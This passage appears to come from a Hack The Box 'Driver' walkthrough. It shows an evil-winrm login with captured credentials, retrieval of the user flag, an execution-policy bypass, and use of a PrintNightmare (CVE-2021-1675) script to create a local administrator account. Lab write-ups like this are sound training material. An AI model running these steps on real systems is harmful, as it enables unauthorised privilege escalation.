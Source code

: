 Now we can connect to the box:

```sh
┌──(root💀kali)-[~/htb/driver]
└─# evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.3
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
Info: Establishing connection to remote endpoint
```

## User Flag

Might as well grab the user flag:

```text
*Evil-WinRM* PS C:\Users\tony\Documents> type ../Desktop/user.txt
<HIDDEN>
```

## PrintNightmare Exploit

Now upload our exploit:

```text
*Evil-WinRM* PS C:\Users\tony\Documents> upload /root/htb/driver/CVE-2021-1675.ps1
Info: Uploading /root/htb/driver/CVE-2021-1675.ps1 to C:\Users\tony\Documents\CVE-2021-1675.ps1
Data: 238080 bytes of 238080 bytes copied
Info: Upload successful!
```

If we try to import the PowerShell module we get an error because the execution policy is set to restricted:

```text
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module ./CVE-2021-1675.ps1
File C:\Users\tony\Documents\CVE-2021-1675.ps1 cannot be loaded because running scripts is disabled on this system. 
At line:1 char:1
+ Import-Module ./CVE-2021-1675.ps1
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : SecurityError: (:) [Import-Module], PSSecurityException
    + FullyQualifiedErrorId : UnauthorizedAccess,Microsoft.PowerShell.Commands.ImportModuleCommand
```

We can easily get around this by setting it to unrestricted for our current user:

```text
*Evil-WinRM* PS C:\Users\tony\Documents> Set-ExecutionPolicy Unrestricted -Scope CurrentUser
```

Now we can import it and run to create our admin user:

```text
*Evil-WinRM* PS C:\Users\tony\Documents> Import-Module ./CVE-2021-1675.ps1
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "pencer" -NewPassword "pencer123"
[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user pencer as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll
```
